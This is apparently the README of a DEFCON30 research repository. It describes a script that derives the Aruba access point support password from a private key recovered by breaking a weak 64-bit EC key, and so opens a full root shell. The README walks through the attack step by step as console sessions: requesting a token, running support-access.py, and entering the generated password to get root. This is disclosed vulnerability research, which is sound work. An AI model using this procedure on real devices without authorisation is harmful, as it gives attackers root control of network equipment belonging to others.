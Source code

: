 # Hunting Bugs in the Tropics

This is a repo with the slides used in my presentation "Hunting Bugs in the Tropics" at DEFCON30. It includes the Python script used to calculate the support password based on the private key obtained by breaking Aruba support's EC public key, due to its weak size (64 bits). This allows you to break out of the subshell on these devices, and obtain a full root shell.

You can use it running `support` on the AP CLI, and supplying an arbitrary username:

```
# support
Username (Please enter with @domain.com, in lowercase): a

Token: ED14-B132-D4BB-D428
Please generate one time password at https://ase.arubanetworks.com/decode_aos_key
Support Password:
```

then passing the username and Token value to the `support-access.py` script in this repository.

```
$ ./support-access.py a ED14-B132-D4BB-D428
Password: 4197d68283f73d5c
```

Paste the response as the Support Password:

```
Support Password: 4197d68283f73d5c
Switching to Full Access
~ # whoami
root
```

